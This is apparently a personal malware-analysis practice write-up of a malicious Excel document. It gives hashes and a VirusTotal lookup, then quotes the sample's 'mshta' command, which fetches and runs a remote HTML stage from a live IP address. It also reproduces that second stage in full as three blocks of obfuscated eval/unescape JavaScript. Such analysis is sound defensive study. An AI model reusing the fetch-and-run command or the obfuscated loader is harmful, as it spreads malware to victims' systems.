 ```yaml
---
layout: page
title: Malware Analysis Practice(Maldoc) #1
permalink: /lemon-mockingbird-north-alanine
---
```


# Analysis of lemon-mockingbird-north-alanine

asparagus-potato-london-march is a sample I downloaded from MalwareBazaar that was uploaded by [@Cryptolaemus1](https://twitter.com/Cryptolaemus1/), a link to the sample is below. The bulk of this analysis is based on techniques I have learned from [@HuskyHacksMK](https://twitter.com/HuskyHacksMK)'s Practical Malware Analysis & Triage course.

Sample source: [https://bazaar.abuse.ch/sample/c49da30a5ef994b4388c65f8fd295e33766011b1b5a2221db9753490408f62c7/](https://bazaar.abuse.ch/sample/c49da30a5ef994b4388c65f8fd295e33766011b1b5a2221db9753490408f62c7/)

---

## Static Analysis xlsx file

### File Hashes
I pulled the below hashes using hashcalc.

- MD5: db00ce44029164d0695bafc91fa67413
- SHA1: a7c0195d74d5be9c44638957c704eb76ef749c17
- SHA256: c49da30a5ef994b4388c65f8fd295e33766011b1b5a2221db9753490408f62c7

### VirusTotal
I was able to find a hit when searching the file hash in VT. There is some good information, interestingly only 8/60 vendors flag the file as mailicious. 

VirusTotal - [https://www.virustotal.com/gui/file/c49da30a5ef994b4388c65f8fd295e33766011b1b5a2221db9753490408f62c7](https://www.virustotal.com/gui/file/c49da30a5ef994b4388c65f8fd295e33766011b1b5a2221db9753490408f62c7)

### Strings
I used strings to pull all strings from the sample. One string really stood out and it looked very useful.

cmd /c set kiki=mshta http://91.240.118.172/mm/nn/se.html & echo %kiki% | cmdB

From here I went out on a limb and guessed this was a second stage and used any.run to pull a copy the html file safely. The any.run analysis where you can download a copy of he.html is here: [https://app.any.run/tasks/b756c3c0-d524-4c6c-95dc-d472c632a26d/](https://app.any.run/tasks/b756c3c0-d524-4c6c-95dc-d472c632a26d/)

---

## Static Analysis second stage se.html
The first thing I did with the html file was to open it in Notepad++ in the hopes that it wouldn't be a mess of encrypted characters. I was met with an obfuscated script split up into 3 blocks.

Block 1
```	<script>
		l1l=document.documentMode||document.all;
		var f9f76c=true;
		ll1=document.layers;
		lll=window.sidebar;
		f9f76c=(!(l1l&&ll1)&&!(!l1l&&!ll1&&!lll));
		l_ll=location+'';
		l11=navigator.userAgent.toLowerCase();
		function lI1(l1I){return l11.indexOf(l1I)>0?true:false};
		lII=lI1('kht')|lI1('per');
		f9f76c|=lII;
		zLP=location.protocol+'0FD';
		edtsQwJ5y67d8=new Array();
		mX52Su5Km3cOV=new Array();
		mX52Su5Km3cOV[0]='w%36%38%33BC\115\104'   ;
		edtsQwJ5y67d8[0]='<!DOCTYPE html PUBLIC "-//W3C~DTD XHTML 1.0 Transitional~EN"~~\ntp:~w~B.w3.org/TR/x~\n~1/~D~N~Pl1-t~-~/~1~3~5l.dtd"><~W x~~/="~=~?~A~C~E~G~I/19~y~V~l~f~head~gscript>ev~6(une}ape(\'\\166%61%72%20}1}7}37%3D}"}+2}+3B}%}9},8},D}23}4r}9n}4}0Ef}62o}}.4}>68}E}} %}Po}E4e}"}93})}>2C},})}$2}7}3}E6}57}A28i}:},}$}3}r~},}!3}z}2}hB}r2}4|}"}77B}J1y},}0}4}-}57}h}97}.}3fu}E}E}>74}B}F}l}}#q}6},|"}9}g}|151f}]}"1d||}5me|!}J|2|144oc|6}Nent}W}.6F|365}"|"|"}&|?||K}|5}l|O|N||H|=}Tl}l|<|}46|A|57|Y|,|j4|[E|^Ew}A6||U|O}p|}h}0|}.|},|+}|\n3|\'||}}k}5n|W~2}l7{}#}%{}7|x|)|z}w}h}.2}zCs}"}!|{}}$}|!}"0styl}\\|}1}Z}l1spla{A|}Y|,{|m}/},E},}c70r}E|O3{A{#|}(|%}*}"|{}"Fp}2{.{A}x2F{{K{Q{$}T{{I{ |}\'2}w}z|JEew{(A}A} }T|%{7a|/|{G}J}!4{Wg{2|{?}b}/}E}!|\\}|4}{WEn|3}1}"}c{0|?|.}?|9z	}0{\nz\r}0z7zz46{;}Ke|e5g}B{|{|{},}>|6{A|N{m}#A{zz6z|\n{t}8t|Zlzzz;}5}z@{?}K|}4}\'}z|)|~H}]k}s3}u|e|\r}c}-{f{3}az1C{Gn{~}4h{e|,}a|||dz,3|}-|MFcu|8zza|}"Ezc|mtz_ezuz0|;{{|y}<4azc}}Tm{G}]z|z]%5BzS5{}~fz"{!8jzTzV}{9}xzZ1} }w|<z}|z\'zw}R|y{"zk|*|/|K}o}qy|}wzY|z.|+|-{Py={}}j}]z[|,})|yyyy|*zz\\yFByyzx{z0{|N{zt{9|fy}T|C|N{|~#~%yBy#{g}yyy;}yQz7A{{|~yp|}yr|\'))</}}}}}}}	d|Bzt|Ft~D}t}"<tab{- wi~ch=\'10}$\' b~Hderx0\'~g~[x$dxgcol~Hx#x}xx~6ign = \'cxxx#<y|G {*{,ex8\'xAt-family: Vxd~.a, {oi~6xYHelve~2cxXxC~.s-sxif; xIxjizexR12pxxox*x,rxR#Fwwxobackgro}d-x|~Hxx06x2>ThxFswrx< x*x of this pyxFw&w(w\nxcxx\'by <b~gxIxC{+xxwx~ wzaFCCwya~&Guardx\\nyxxI~g/w7w5brww ul~2maxw#ox+w`w-ow/t yw wFwoxxYiw]g}xYJa} }{5xcswuwwayzyw} linkvkeepxebwm|GxxpxOxrw\'aw{7wyz muchv~He.v&w5/wPw6wV<aw:xExGxxxJxx*~-~2~4xRn~4ex{x+ww@wwCx2~	refx~p~@/'   ;
		j7eCosn='fu'   ;
		dhQtYD1xY4Wvl='ecYo6L6'   ;
		i4CE51FAn='LwjfpUopMlQdbeohOiUJ'   ;
		j7eCosn+='nction oisT5kq'+'h7gMSHK(ejd1b4W'+'vdU27U){'   ;
		tsY5j35h1t7p='%69\146%28%7AL\120%2E\151%6Ed\145x%4Ff%28%27%5C%35%35%27%29%3E%30%29%7Be\144%74sQ\167%4A%35y%36%37d%38%5B%30%5D%3D%27x%27%7D%3B%76\141\162%20l%32%3D%77in\144o%77%2Eo\160%65\162a%3F%31%3A%30%3Bf%75%6E%63%74io\156%20c%36%37%66%39\146%28%29%7B%69f%28\146%39f%37%36c%29%7Bdo\143\165%6De%6E\164%2Ew\162i%74\145%28%6C%4F%29%7D%7D%3B%66%75nc\164%69o%6E%20l%33%28%6C%34%29%7Bl%35%3D%2F\172a%2Fg%3Bl%36%3DS\164\162i%6Eg%2Efro\155Ch\141\162C%6F\144%65%28%30%29%3B\154%34%3Dl%34%2Ere\160%6C\141%63\145%28l%35%2Cl%36%29%3B%76\141\162%20%6C%37%3D%6E%65\167%20A\162r%61y%28%29%2Cl%38%3D%5F%31%3D\154%34%2El\145n%67%74%68%2C\154%39%2C%6CI%2C\151%6C%3D%31%36%32%35%36%2C%5F%31%3D%30%2C\111%3D%30%2C%6C\151%3D%27%27%3Bd\157%7B%6C%39%3D%6C%34%2E\143ha%72C\157%64e%41t%28%5F%31%29%3BlI%3D\154%34'   ;
		function h7gMSHKoisT5kq(btU3p36){i4CE51FAn+=btU3p36};
		edtsQwJ5y67d8[0]+='~Bw.pw.vvF.x*mxx~Ixcx_x~.kx#wTw8~4wgxDw<xHvcxKxMxOxQxSxUxWxYx[x]wkx`xbxdxfsxhxjxlxnxpvh~0xtxvxxxzwmx}xvBwD0wwww\nwwv?w?x/0x1x">vM.Pw.WwJv%vUwOvcwQw7yxawQ~du%v,/xxe>");dl=xzs|8|G.{6yxs;oe=xzovNo}~-?1:u	xV=(u4xu7uOu6tMwne||uRx.~6l)&&!u>;wsu3xuS.wsz|{-uSById;wsu@vxvN~0xwr?~[uxuxLlxk;tN=~5vx5w^~H.uxkrAwsu7toLuCxCvza}u/xstt.uvexOf}}t}}yu>=0u}ru:tt{utxV;t58u3a;}rvsgx\';|nw0~_ }m(){vFturx7u~e}uruvuC~G}rw\nt?x9tKt8OFuuuBvNx,xev8nvOw.|Bx+t zt"t$}fxOeyu!=-1t/t1t3v=i7vHt5u`!ztct}tza~6tyxvy|<swgxxlI1lx#t>w(px*nvHu	sqy7tC;s"t:S~[vg.fw\nmChwJCuV(13,xs9s8xu/yr(it-;i<481sD++tNs"7+=s\'tWI~Xu2x\n"+"!--sXsNsYs\\sX~f";slsV/sb*s^s#sYsksYsi;~X11~ns}sbyu-+sss6)s|Is~2rza"xsXs}1(3r\'s\ry~sby|sdrssvsr~.v/{-xwL{4u9:v;}x?vPu,slsOx\n/r$wQrsYw)nu-sesgu2r1+sTsr6rsIs}Isvsb{4~.r0r2r=r(r?r.r0r7susWsYr@x7veu?\'t	~0bxO~1xQw%dxnx#qw}zasdzxcrsgItE}tH~4vstItM{sst{lxZt]{7}bvGv$Begv\',\'{vvr|r~r[qrys?ezdqzaqfvqyur11r=}wru~-y}~Wqw}qxdyqaqwqgqwLvqs?vVqu*{-qsq\'nputqpqsst=r2r\nu/sxtv!(q=1tNxexk~\':q=qrt{oq(|,qUqWs87qYq[qVq\\qZq]u/wU}zak;qKxF2qNsqPqqRrw38,}Fqq7s95qq1qu,9qz,{qy|,qavFaqdqf 3qiqrsqlrvq0,qopqp|,q|pq{q{q~ppza;qbpqet 4pqkqqnqpqrqrp4qxpq|pqvppqdxxLwZtp"p\np$p\r,pp<p;p>p=p@)sSrp8qmqr7l,sfpIssqxr4pJr2,r<pRrfpPstu/~XruNugu[ujEulxsunTyNxM}r7I[2])[0]q}pJr[7pmtE~H(tsCt<piu8|Fgw$tsKtNmq?qj[t]srqu2uZu7p^p`|Gpbypdgpf|8(pio\npww0aLq?oozazbos?(jsCj<oL;jo{o\'xsCxsF;xo1xm(m&Mw^hvOuC(2,xyv{pYrnpYl[jpqxpsr[m>oV4pm}oZsSsrnu/sfqAr1~XtMsestoaxktTwqewt}rqo^qzaxxpBrhtGtj sfo^{sr2op\\u7wqw*w}ssou5u[vvw}xOq?r2o$ohpTo"snw$pPsurw%{-sAu^oIrnuPx}}zaxp_z~x}rMqsTsn\rsg[s\\xOoo;!(ps~4f&rtN~[ynsTu\\n7|Fds1xOdorfvOu|GNuV.vF{5wenFlnHs}pIn,Iyv}tiqFetNo[ntvqGnnXufnu7n#w^qoon\'n*o_rfnoMs\\sgn3t%n5n7sn:qIn=rn?nXnB}znUnHnZnKvFnMnOnQ{6x<mqGnnn[pBn^h(n`{'   ;
		j7eCosn+='eva'   ;
		xH52oqTJ='DeUOHNVQOEJTWexYfVZQOcTKOwOt'   ;
		j7eCosn+='l(unes'   ;
		xB7jh5qz='m3cS2JN62'   ;
		j7eCosn+='cape(ejd1b4WvdU27U))}'   ;
		xB7jh5qz+='uZ0FLiBTY'   ;
		eval(j7eCosn);
		xXeharPxFbO='LDhOjIdZoHHnZVMRvMvauGyZODOYiLvOPjv'   ;
		j7eCosn=''   ;
		tsY5j35h1t7p+='%2E\143%68%61%72\103od%65%41t%28%2B%2B%5F%31%29%3B%6C%37%5B\111%2B%2B%5D%3D\154I%2Bil%2D%28%6C%39%3C%3C%37%29%7D\167h%69%6C\145%28%5F%31%2B%2B%3C\154%38%29%3Bv\141\162%20\154%31%3D%6Eew%20\101\162%72a%79%28%29%2C\154%30%3D\156%65\167%20A%72\162%61y%28%29%2C%49\154%3D%31%32%38%3B%64\157%7Bl%30%5B%49%6C%5D%3DSt%72i%6E\147%2E\146rom%43har%43o\144e%28\111\154%29%7D\167\150il\145%28%2D%2D%49l%29%3B%49%6C%3D%31%32%38%3Bl%31%5B%30%5D%3D%6C\151%3D%6C%30%5Bl%37%5B%30%5D%5D%3B%6C\154%3D%6C%37%5B%30%5D%3B%5Fl%3D%31%3Bva%72%20\154%5F%3D%6C%37%2E%6Ce%6Egth%2D%31%3Bw\150%69le%28%5F\154%3Cl%5F%29%7Bswitc%68%28%6C%37%5B%5Fl%5D%3CI\154%3F%31%3A%30%29%7B%63a%73\145%20%30%20%3A%6C%30%5BI\154%5D%3Dl%30%5B\154l%5D%2BStr\151\156\147%28l%30%5B%6C%6C%5D%29%2E%73%75%62s\164r%28%30%2C%31%29%3B\154%31%5B%5F'   ;
	</script>```
Block 2
```	<script>
		eval(unescape('f\165n%63%74\151\157n%20yI%36Q%51%36%20%20%20%20%28\164%33%50%35FFQ%56%29%7B\150%76%43E\125%35Z\105\115M%4B\102%32%3Dt%33%50%35FF\121%56%7D%3B'));
		qeb6lGDCHLg341R='l'   ;
		xB7jh5qz+='q3rKC46b'   ;
		mX52Su5Km3cOV[0]+='%72%30o%4B%31%31%35%67B'   ;
		edtsQwJ5y67d8[0]+='o[tWtFrjx7o`rouAuw~GmtwZlu0nzaxuE|Fm&sgm)nix|r~1u?nm\'tXtfu\\{-rp{m6m/mrioxn,qAo|wJ t"~[aFri1C|G|Gt-m@owtIrqmDsmH~-mKtG}bmOp{0mRmrlpZe,p,cnn?n4m"tZuyvwJtNv%vtyXdjnS|GwFostoMppqmh}x`qLtOcvHon"pxR~.wstMvTl	nTvcmHwIlF~-guS(mhsDt%p=t-mqm	xnNxtpmtr|q\n(wf,n`tWo;l=qI{mr~/xtl(v$l*ll-s-ivtmoul0lrl4mnDml+lCllrlGw)m\ntnOmsl7l9vFl;l,v%}v3Sixs+pBoZm(xuunam`oxr	o(tNx o?w$nP~.xtLu/dp8Dnllujojott%o)l2tNo=s)}zbs-s/s1s3s5lpoAfx,pyr*25+|Nn\\lxF{kks-ks@kd*os0rza\'tDosPou=k+k-=ol/kzalNkk.k*k0tWtPtRx7k1lpzy}w!xtYvN}dExb|GLw&xt\\ty\'wvGveq\rtNmlkErYkHxkK{*|Fx}x,q pRrm,tpBk o;{+kAw"lu\\kYkItk\\kMxkOkQtu}kU{knkFkZkJkLk^s@\'kaq\rkcqkesl.khkjk@olw"kWu\\txv!k~tkvtqkxkTyu{jw^jhj}~4jqzassn[ljtIq@roqHsCutwwt\ntrt\rttu[ttr^rtxkodo;jmnu{tNj,2k2(jv!s/mj,3jFjm,~-jCrq=4jFk|sgu`qHtyjTjRq>1jFutpxt#t%np{vwJit+l3jLjFmq>ku`}jbtrjeixFxjjoHj,xk9xck;vrq}ry{}	w5s>mmBrmron>oIqsuknon\'|Gunupk`sfq<il"ml%vFmoxbmpYqIn]w^n_t]rliisziy~}vlwIue"VBSi.t~f\r\n i=i>WkD.Rel^xtTo piIi;i>i?iAuUxbiG -4xiJiTiVi;	i=i;COx8~ $c3x}{LOkoNijoBoik}ihinimikipirs)itikivioiqk1ki{ilinixk1hi}h}ghhi}}\'~\nhiwh~>hi~irvK9~(2iU.st8h} /mm/nnyyv%pzbk()\'nPvm}\'hh	qzax:q"i;A~x9~;-v;t"~1ibcsu\'(h6hhJirNehLhiii|h\rirwhP}-ObjhWechWhWwgNh`hRhhirxchW.WhdiuhTk1twh1nRx<}hWh8h.;h;\nCMi`~;ic4xbChWvhmhShghpnghfhk1t).DghhuCgho}nlgg	ishegiroh0m\rnShug ghwh:i;GNh~I`E`XibJI|g0g2X~;+ia~;g,Ah~$g6uMicqxgza,ic3iSJovh9u/hzJHWET5JQ35UgYW5Hi`h= g=h|gd i^ggGgAg=g-i;WSi`s1s@87) &ghhgtrgg"sxggkiCxbvx	.~>iu.gggs(8g}gyfx4gwg="x`~}i;oh SfHRTJKTSf!ARgax9ClhZjh^ongp)i;REgSEfgYf gTgSAWgrg{(f49gwff?fBfDgzs@5k&fHffAfCgxfI(fGfQfOyv+fNfFfPfEs@fTf\\(}myvfUf?xqIfXfd|?fMfh5fjs@frzaf0qIfcfn08fpfdfvfmrri;fff f"f$Kf&HiB} f3f5f7Qf9Wf;f=g=gSgUgWgYg[g]Qg_HxYfAfwiZghx,xkiLi>i+y|w5~\na:wzvtitIs"o~#A~;e+ie-~4~5|8~nipnjwe4n7e,w^~_~nu:rkCx~nxxy~;wx5~\neJ0eLwQe(e*eAe6eC~4eT}za}w6wnyu!e_eT~|> '   ;
		h7gMSHKoisT5kq('p20qO4m3u43');
		tsY5j35h1t7p+='%6C%5D%3Dl%30%5B%49l%5D%3Bif%28l%32%29%7B%6C%69%2B%3D%6C%30%5B\111\154%5D%7D%3B%62%72\145\141\153%3Bdefa%75\154t%3Al%31%5B%5F%6C%5D%3D\154%30%5Bl%37%5B%5F%6C%5D%5D%3B\151f%28%6C%32%29%7Bli%2B%3Dl%30%5B%6C%37%5B%5F%6C%5D%5D%7D%3Bl%30%5BI\154%5D%3D\154%30%5Bl%6C%5D%2B\123%74\162i%6Eg%28l%30%5B\154%37%5B%5Fl%5D%5D%29%2E\163\165%62\163%74r%28%30%2C%31%29%3B\142%72\145ak%7D%3BIl%2B%2B%3Bll%3D\154%37%5B%5F\154%5D%3B%5Fl%2B%2B%7D%3B\151f%28%21l%32%29%7Bre%74urn%28l%31%2E\152o%69%6E%28%27%27%29%29%7De\154s\145%7B\162e\164u%72n%20%6Ci%7D%7D%3B\166ar%20\154%4F%3D%27%27%3B%66o%72%28%69\151%3D%30%3Bi\151%3C\145%64tsQwJ%35\171%36%37d%38%2El\145n\147%74h%3B%69i%2B%2B%29%7B%6C%4F%2B%3D\154%33%28%65d\164%73%51wJ%35\171%36%37\144%38%5B%69%69%5D%29%7D%3Bc%36%37f%39%66%28%29%3B'   ;
	</script>```

Block 3
```		<!--qYjXd1OND0RNWf38O8O2-->
	<script>
		xXeharPxFbO      ='xOCSHOGNQcIIrMZITOaeWwlCcXOtEFZPOZdMOUjitamfrYGPd'   ;
		oisT5kqh7gMSHK  (tsY5j35h1t7p);
		yI6QQ6   (tsY5j35h1t7p);
		h7gMSHKoisT5kq    (xH52oqTJ);
		iTyx7jacEB7sp804='s1m44XF7ZiYSVix800CGQF7mIXd'   ;
		eval(unescape('%71%79%36%28%22%63%37%39%38%66%62%36%39%66%22%29%3B'));
		qeb6lGDCHLg341R+='GqMoOOYlEKDQjuvOcotoNcoOPbqmOkFMyHXydOOtgYLMpsFxOOQdBddbblnXIPJCOuVLqUOTaxdOxDrmfFjOuOwOYfrwOewuwyiOJMjeL'   ;
		xB7jh5qz+='wf46Om'   ;
	</script>```